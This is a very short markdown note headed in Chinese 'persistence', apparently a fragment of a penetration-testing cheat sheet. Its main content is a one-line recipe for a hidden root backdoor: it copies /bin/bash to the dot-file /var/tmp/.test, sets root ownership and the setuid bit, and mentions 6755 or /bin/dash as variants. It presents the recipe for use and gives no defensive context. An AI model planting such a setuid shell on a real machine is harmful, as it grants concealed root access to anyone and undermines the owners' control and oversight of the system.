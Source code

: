 # 权限维持

hide bash privilege escalate

```
 or 6755  or /bin/dash
 cp /bin/bash /var/tmp/.test; chown root:root /var/tmp/.test; chmod 4755 /var/tmp/.test
```

